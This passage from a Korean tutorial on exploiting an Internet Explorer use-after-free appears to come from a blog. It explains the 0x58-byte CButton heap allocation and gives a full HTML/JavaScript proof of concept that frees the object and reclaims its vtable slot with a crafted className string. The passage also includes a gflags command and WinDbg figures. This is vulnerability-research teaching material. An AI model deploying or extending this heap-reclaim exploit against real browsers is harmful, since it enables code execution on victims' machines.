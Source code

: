 CreateElement의 HeapAlloc 과정을 다시 살펴보겠습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0e_16.png" | relative_url }}' alt='[그림 1-16]'>
</figure>

CButton을 할당할 때 0x58만큼(88 바이트) 메모리에 할당하는 것을 알 수 있습니다.

0x58만큼 할당하고 해제한 뒤 0x58만큼 다시 할당 요청을 하면 CButton 객체가 사용했던 위치를 다시 할당해줄 것입니다.

gflag.exe로 힙 페이지와 스택 트레이스 설정을 해제하고 코드를 수정하겠습니다.

	gflag.exe /i iexplore.exe -hpa -ust

아래 코드는 글 맨 처음에 소개했던 코드에서 재할당하는 부분까지 포함된 것 입니다.

	
	<!doctype html>
	<html>
	<head>
	<script>
	function helloWorld(){
		var e0 = null;
		var e1 = null;
		var e2 = null;
		
		try{
			e0 = document.getElementById("a");	// form
			e1 = document.getElementById("b"); // dfn
			e2 = document.createElement("q"); // q
			e1.applyElement(e2);
			e1.appendChild(document.createElement('button'));
			e1.applyElement(e0);
			e2.outerText="";
			e2.appendChild(document.createElement('body'));
			CollectGarbage();
			e0.className = "\u4148\u4B43AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
		} catch(e){}

	}
	</script>
	</head>
	<body onload="eval(helloWorld())">
		<form id="a">
		</form>
		<dfn id="b">
		</dfn>
	</body>
	</html>
	
CollectGarbage 바로 아래에 e0.className 부분을 통해서 Vtable 자리에 0x58만큼 재할당하고 있습니다.

이 코드를 다시 한 번 Windbg로 살펴보겠습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0e_17.png" | relative_url }}' alt='[그림 1-17]'>
</figure>
